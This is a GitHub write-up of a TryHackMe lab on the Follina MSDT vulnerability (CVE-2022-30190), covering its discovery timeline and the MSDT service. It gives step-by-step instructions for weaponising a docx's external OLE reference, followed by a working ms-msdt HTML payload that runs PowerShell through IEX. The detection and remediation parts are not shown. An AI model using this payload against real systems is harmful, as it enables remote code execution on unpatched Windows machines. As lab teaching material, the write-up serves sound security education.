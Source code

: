 
# Fz3r0 Operations  [OffSec / Hacking]

![My Video](https://user-images.githubusercontent.com/94720207/165892585-b830998d-d7c5-43b4-a3ad-f71a07b9077e.gif)

## Follina MSDT [Try Hack Me]

_A walkthrough on the CVE-2022-30190, the MSDT service, exploitation of the service vulnerability, and consequent detection techniques and remediation processes_

---

##### Twitter  : [@fz3r0_OPs](https://twitter.com/Fz3r0_OPs) 
##### Github  : [Fz3r0](https://github.com/fz3r0) 

---

#### Keywords: `CVE-2022-30190` `Exploit` `Hacking` `THM` `Windows` `Microsoft Word`

---

### Introduction

Microsoft explains that "a remote code execution vulnerability exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights"

### Learning Objectives:

In this room, we will explore what the Microsoft Support Diagnostic Tool is and the discovered vulnerability that it has. In the process, we will be able to experience exploiting this vulnerability and consequently learn some techniques to detect and mitigate its exploitation in our own environments

---

### CVE-2022-30190

The MSDT exploit is not something new - in fact, a bachelor’s thesis has been published August of 2020 regarding techniques on how to use MSDT for code execution. Almost two years after that initial publication, pieces of evidence of MSDT exploitation as well as code execution via Office URIs has triggered several independent researchers to file separate reports to MSRC, the latter of which has been patched (specifically in Microsoft Teams) whereas the former remained vulnerable

It’s not until the discovery of nao_sec, which has been made public in twitter, that attacks using this particular vector is actively being made in the wild. This is consequently picked up by Kevin Beaumont who publicly identified it as a zero day that Microsoft EDR products are failing to detect, and then later classified by Microsoft as a zero day with the vulnerability name CVE-2022-30190

#### Summarized timeline of its discovery:

- August 1st 2020  — A bachelor thesis is published detailing how to use MSDT to execute code
- March 10th 2021  — researchers report to Microsoft how to use Microsoft Office URIs to execute code using Microsoft Teams as an example. Microsoft fail to issue a CVE or inform customers, but stealth patched it in Microsoft Teams in August 2021. They did not patch MSDT in Windows or the vector in Microsoft Office (Link)
- April 12th 2022  — first report to Microsoft MSRC of exploitation in wild via MSDT, by leader of Shadowchasing1, an APT hunting group. This document is an in the wild, real world exploit targeting Russia, themed as a Russian job interview

![image](https://user-images.githubusercontent.com/94720207/180611650-2bc82256-8dfe-48e0-986c-351cec4e385f.png)

- April 21st 2022  — Microsoft MSRC closed the ticket saying not a security related issue (for the record, msdt executing with macros disabled is an issue)

![image](https://user-images.githubusercontent.com/94720207/180611661-42ecc7e0-6a30-4a05-8eb4-e8840ae69857.png)

- May 27th 2022  — Security vendor Nao tweet a document uploaded from Belarus, which is also an in the wild attack.
- May 29th 2022  — Kevin Beaumont identified this was a zero day publicly as it still works against Office 365 Semi Annual channel, and ‘on prem’ Office versions and EDR products are failing to detect
- May 31st 2022  — Microsoft classify this a zero day in Microsoft Defender Vulnerability Management

![image](https://user-images.githubusercontent.com/94720207/180611678-c31aab00-bb08-4803-85bd-2fc2cfb07d20.png)

- June 14th 2022  — a fix for this vulnerability, CVE-2022–30190, is available in June 2022’s Patch Tuesday

---

### The MSDT Service

Microsoft states that "the Microsoft Support Diagnostic Tool (MSDT) collects information to send to Microsoft Support. They will then analyze this information and use it to determine the resolution to any problems that you may be experiencing on your computer"

With that in mind, it’s essentially a way for Microsoft Support to immediately see what’s wrong as they’re getting all the information they need straight from the source

Think of it like this - you’re having car problems and you don’t know about cars at all. You call your trusty car mechanic, but instead of him asking you to check different parts of the car while he tries to deduce what’s wrong with it remotely, he just gives you a **passkey**, instructs you how to use it and the car will magically produce a report that you can then send to the mechanic. Quick, easy, and efficient.

---

### Exploiting the Follina Windows Vulnerability

Before we do any exploitation in the machine, let’s first try and make sense of the baseline processes of the machine. It is in having a sense of normalcy that we’d be able to spot minute changes later on that may consequently reveal malicious activity by a threat actor in our environment.

The process explorer from sysinternals has already been downloaded and pinned in the taskbar for easier access. Proceed to open it and scan through the processes currently running in the machine. Keep it open as we go through the activities later on so you'd be able to immediately see how an exploited follina-msdt vulnerability would look like as compared to the "baseline" - the processes that we're seeing while the machine is immaculate.

### Exploit Explanation

Let’s start with a disclaimer: for our purposes, we’ll be loading our payload via a word document, particularly in the .docx format - this is the original exploit that has been discovered in the wild. However, this vulnerability has been proved to work in a number of other office products, and the student is obliged to maximize learning by trying them out separately.

Two important aspects of this vulnerability are: 1) specific docx files contain OLE (originally abbreviates to Object Linking and Embedding) Object references, and sometimes, they take the form of HTML files hosted elsewhere, and 2) MS-MSDT allows for code execution.

Combining the above two aspects together, an MS-MSDT HTML scheme can be used to execute PowerShell code, and that a docx file can be used to load it via word’s external reference capability.

More specifically, drilling into the docx structure, the word/_rels/document.xml.rels file has an XML tag `<Relationship>` with an attribute `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject"` that describes an external oleObject reference. In order to exploit this docx feature, we can edit the contents of this tag to point instead to the payload that we're hosting by changing the `Target` value into http://<external_payload_server.com>/<payload.html> and the `TargetMode` value into "External".

In the word/document.xml file, there's an XML tag that starts with `<o:OLEObject...>` wherein we should change the Type value to `"Link"` and then add the Key-Value pair attribute `UpdateMode="OnCall"`.

The only thing left to do now is to host the payload that the word file will be connecting to, and receiving instructions from upon opening of the file. This is done by creating an html file with a structure similar to this:

```html
<!doctype html>

<html lang="en">

<body>

<script>

//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times

  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";

</script>

</body>

</html>
```

In the above contents of the html file, you'd notice the `ms-msdt:/id PCWDiagnostic /skip force /param` command, along with the command switches you can use to set the command you want to execute in the target machine. You can then mix and match the payload according to your purposes.

As such, we now have a way to achieve remote code execution without touching any macros, and as we'll see later, without even opening the malicious document.

---

### References

- https://tryhackme.com/room/follinamsdt
- https://msrc-blog.microsoft.com/
- https://positive.security/blog/ms-officecmd-rce
- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190
- https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e
- https://benjamin-altpeter.de/doc/thesis-electron.pdf
- https://docs.microsoft.com/en-us/troubleshoot/sql/general/answers-questions-msdt
- https://social.technet.microsoft.com/wiki/contents/articles/30458.windows-10-ctp-how-to-run-microsoft-support-diagnostic-tool.aspx
- 



---

> ![hecho en mexico 5](https://user-images.githubusercontent.com/94720207/166068790-fa1f243d-2db9-4810-a6e4-eb3c4ad23700.png)
>
> _- Hecho en México - by [Fz3r0 💀](https://github.com/Fz3r0/)_ 
>
> _"In the mist of the night you could see me come, where shadows move and Demons lie..."_ 
